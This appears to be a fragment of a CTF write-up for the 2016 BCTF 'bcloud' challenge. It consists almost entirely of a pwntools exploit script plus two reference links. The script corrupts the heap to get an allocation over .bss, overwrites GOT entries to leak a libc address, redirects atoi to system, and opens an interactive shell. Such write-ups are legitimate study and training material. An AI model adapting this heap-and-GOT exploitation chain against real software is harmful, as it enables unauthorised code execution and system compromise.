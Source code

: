 ```python
# gdb.attach(p)
name = "Bill"*0x10
org = "A" * 0x40
host = p32(0xffffffff)
leak = welcome(name, org, host)

#part two
bss = 0x804b0a0
length = bss - 8 - (leak + 0x48*3 - 8) - 8
newcontent=''
new(length, newcontent)
#edit(0, "B"*20)
#delete(0)


#part three
printf = elf.plt['printf']
free = elf.got['free']
atoi = elf.got['atoi']

payload = "A"*128 + p32(atoi) + p32(free) + p32(atoi)
length = len(payload)
new(length, payload)
edit(1, p32(printf))
delete(0)

# part four

real_atoi = u32(p.recv()[0:4])
log.info("readatoi: %s" % hex(real_atoi))
system = real_atoi - (libc.symbols['atoi'] - libc.symbols['system'])
edit(2, p32(system))
length = "/bin/sh\x00"

p.recvuntil("--->>")
p.sendline("1")
p.recvuntil("Input the length of the note content:\n")
p.sendline(str(length))
p.interactive()
```
### 相关链接

[Link1](https://blog.csdn.net/qq_35519254/article/details/77209175)
[Link2](https://www.w0lfzhang.com/2017/03/18/2016-BCTF-bcloud/)
